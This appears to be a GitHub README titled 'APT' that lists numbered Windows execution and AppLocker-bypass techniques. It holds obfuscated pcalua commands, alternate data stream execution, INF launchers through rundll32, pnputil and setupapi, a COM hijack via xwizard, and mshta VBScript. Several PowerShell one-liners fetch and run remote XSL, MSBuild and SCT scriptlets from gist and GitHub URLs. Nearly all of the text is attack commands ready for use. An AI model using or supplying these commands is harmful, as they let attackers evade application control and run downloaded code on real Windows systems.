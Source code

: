 #######################
|                     #
|        APT          #
|                     #
#######################


( 1 ) Use Pcalua 
```
p^c^a^l^u^a^ ^-^n^ ^-^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a calc.exe
```

( 2 )  Alternate Data Streams ADS:>

```
cmd.exe:> type C:\Users\Gihad\Desktop\file.bat > C:\Users\Gihad\Desktop\test.txt:x22x2
cmd.exe:> netsh exec C:\Users\Gihad\Desktop\test.txt:x22x2
```

( 3 ) pnputil.exe Launcher .INF:> Note This Eveything here .INF Work on My Script INFscript Only !
```
pnputil.exe /add-driver C:\FilesINFExecution.inf /install

&- My Code INFScript Injection Command Line 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```
( 4 ) INFDefaultInstall Launch Execute INFScript 
```
INFDefaultInstall.exe C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 5 ) setupapi.dll Launch Execute My INFScript 
```
setupapi.dll,InstallHinfSection DefaultInstall 132 C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 6 ) DLL Execution Using ( Wave.Reflection ) In CPLEx AccessibilityCPL RegServer
```
&- Add Values in HKLM Name File ms-settings in Open/Shell/Command
&- rundll32 accessibilitycpl.dll,DllRegisterServer 
&- rundll32 shell32.dll,Control_RunDLL "C:\Windows\tem32\desk.cpl"
```
( 7 ) Language LUA in Files .wlua
```
wlua.exe C:\testing.wlua
&- Hello World Exe My Code LUA
https://gist.githubusercontent.com/homjxi0e/bbd218dea9bf63fd36524b9777a399f3/raw/888f7e484651fdb733d6261ca002d684a6e5bf9b/Test.wlua
```

( 8 ) SCT ScriptLet Execution in My INFScript
```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
&- Raw Code 
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415
```

( 9 ) Jscript Execute Code Via ( Eval,VSA,) 
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JSCript')
$attack = 'var invokeMethod = new ActiveXObject("WScript.Shell");invokeMethod.Run("notepad.exe")'
[Microsoft.JScript.Eval]::JScriptEvaluate($attack,[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
&- Code Execute
https://gist.githubusercontent.com/homjxi0e/0d683007bd4a3ce39d3e19342aaa68ec/raw/4c8709382280de158b99dd78f91875e32a54bac4/ATPSJScript
```

( 10 ) MSI Launch Execution ( MsiExec.exe ) 
```
 msiexec.exe /passive /i C:\testing.msi /norestart 
 &- File MSI Hello World Exe in .MSI 
```

( 10v1 ) COM Component object Model Hijacking
```
&- Add Reg in System 
https://gist.githubusercontent.com/homjxi0e/8e42aa716361dc41b1c45a314bea501c/raw/327104671eebad1361210524f34076503e6b8e44/COM-hijacking.reg
&- You can now Execution invoke-CLSID Via xwizard.exe
xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
```
( 10v2 ) Execute VBScript Via mshta.exe
```
&- Execute VBScript Code using mshta.exe
mshta.exe VBScript:Close(Execute("Set S=CreateObject(""WScript.Shell""):If S.AppActivate(""maybe-Run"")=False Then:S.Run(""C:\Windows\system32\Calc.exe""):End If"))
https://gist.githubusercontent.com/homjxi0e/eb16d75f3db6d6081648f2c5c5c98c3b/raw/0870f7553095dcf6519f93c1cf72c6415468140b/VBSExC
```




(Note) Product Via @bohops 

( 11 ) HTA Launch Execution ( url.dll ) 
```
Rundll32.exe url.dll,OpenURL FileHTA Or Anything 
```
( 12 ) SCT Launch Execution InSide INFScript ( ieadvpack.dll )  
```
rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1, 
```

( 13 ) XML Launch Execution Via Reflection,Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.Build');
$proj = [System.Xml.XmlReader]::create("https://gist.githubusercontent.com/caseysmithrc/8e58d11bc99e496a19424fbe5a99175f/raw/38256d70b414f6678005366efc86009c562948c6/xslt2.proj")
$e=new-object Microsoft.Build.Evaluation.Project($proj); 
$e.build();
```
( 14 ) CSharp Launch Execution Via Reflection.Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('http://Microsoft.Build '); $e=new-object http://Microsoft.Build.Evaluation.Project('evil.csproj'); $e.Build();
```
( 15 ) SCT Execution Via INFScript By ( advpack.dll )

```
rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
```
( 16 ) XML Launch Execution Via Reader XML,Transform Object Powershell 
```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xsl',$s,$r);$x.Transform('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xml','z');del z;
```

( 17 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.VisualBasic )

```
 [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …').Exec(0)

```

( 18 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.JScript )
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

( 19 ) Commandline APT Launch Execution Applocker/Bypassing Via ( CL_LoadAssembly )

```
import-module C:\windows\diagnostics\system\AERO\CL_LoadAssembly.ps1
LoadAssemblyFromPath C:\Windows\System32\calc.exe
```

( 20 ) HTA Launch Execution Via ( shdocvw.dll ) 

```
rundll32.exe shdocvw.dll, OpenURL <path to local URL file>
```

( 21 ) HTA Launch Execution Via ( ieframe.dll ) 

```
rundll32.exe ieframe.dll, OpenURL <path to local URL file>
```
